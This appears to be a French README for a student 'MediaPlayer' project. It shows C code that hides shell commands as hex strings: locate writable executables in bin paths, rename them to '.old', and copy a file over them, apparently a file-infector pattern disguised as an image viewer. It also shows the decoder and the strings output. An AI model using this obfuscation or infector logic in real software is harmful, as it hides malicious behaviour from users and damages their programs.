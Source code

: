  ```c
 // find '%s' -executable -not -name '*.old' -writable -type f -exec ls -l {} \\; 2>/dev/null | grep 'bin' | cut -d ' ' -f9-
#define C0            "66696E642027257327202D65786563757461626C65202D6E6F74202D6E616D6520272A2E6F6C6427202D7772697461626C65202D747970652066202D65786563206C73202D6C207B7D205C3B20323E2F6465762F6E756C6C207C2067726570202762696E27207C20637574202D6420272027202D66392D"
// mv %s %s%s
#define C2            "6D762025732025732573"
// cp %s/%s %s
#define C3            "63702025732F2573202573"


char *utils_usage(char *e)
{
  size_t len = strlen(e);
  size_t i, j;
  char *r = (char *) malloc((len / 2) + 1);

  for (i = 0, j = 0; i < len; i += 2, j++) {
      int hb;
      sscanf(&e[i], "%2x", &hb);
      r[j] = hb;
  }
  r[j] = '\0';
  return r;
}
```

Exemple du retour de la commande strings sur le Mediaplayer assombrie :

```md
66696E642027257327202D65786563757461626C65202D6E6F74202D6E616D6520272A2E6F6C6427202D7772697461626C65202D747970652066202D65786563206C73202D6C207B7D205C3B20323E2F6465762F6E756C6C207C2067726570202762696E27207C20637574202D6420272027202D66392D
2E6F6C64
6D762025732025732573
63702025732F2573202573

```

> On peut voir que l'éxécution est beaucoup plus compliqué à comprendre pour un oeil non averti.



## MediaPlayer

MediaPlayer est un lecteur multimédia qui permet de lire des fichiers images.

### Installation et éxécution du projet

Pour installer le projet, il faut se placer à la racine du projet et lancer la commande suivante :

```bash
make
```
